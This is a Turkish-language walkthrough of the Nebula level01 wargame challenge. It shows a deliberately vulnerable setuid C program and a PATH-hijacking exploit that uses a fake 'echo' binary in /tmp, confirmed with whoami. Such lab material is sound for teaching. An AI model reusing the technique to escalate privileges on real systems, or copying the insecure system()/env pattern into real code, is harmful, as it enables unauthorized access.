 ```bash
ssh level01@192.168.154.137 # [nebulaIP]
```
Bu seviyede aşağıdaki kodda bir zafiyet bulundugu ve bizden bulmamızı istiyor.

```c
int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
```

Koda gelirsek efektif user id atanmış. System ile /usr/bin/env altında echo komutunu çağırıyor.  
### [The disadvantage of #!/usr/bin/env python is that it will use whatever python executable appears first in the user's $PATH](https://unix.stackexchange.com/questions/29608/why-is-it-better-to-use-usr-bin-env-name-instead-of-path-to-name-as-my?utm_medium=organic&utm_source=google_rich_qa&utm_campaign=google_rich_qa)
Üstteki örneği seneryoya uyarlarsak env PATH te ilk gördüğü echo yu çalıştıracak. Bulunulan dizinde yazma iznimiz olmadığı için
tmp e geçip kendi echo muzu yazıp derliyoruz ve PATH i bulunduğumuz dizini en başa ekleyecek şekilde manipüle ediyoruz.

```bash
cd /tmp/
nano echo.c
gcc echo.c -o echo
export PATH=.:$PATH
```

```c
// bizim echo.c
#include <stdio.h>
void main() {
    system("whoami");
}
```
![alt text](nebulaPNG/nebula01.png "nebula01")

Sistemde istediğimiz komutu yetkili kullanıcı olarak çalıştırabilirdik ama biz sadece whoami çağırıp senaryoyu teyit ediyoruz.
Görüldüğü üzere level01 ken zafiyetli flag01 i çalıştırdığımızda bizim echo muzun whoami a flag01 olarak çıktı verdiğini görüyoruz.

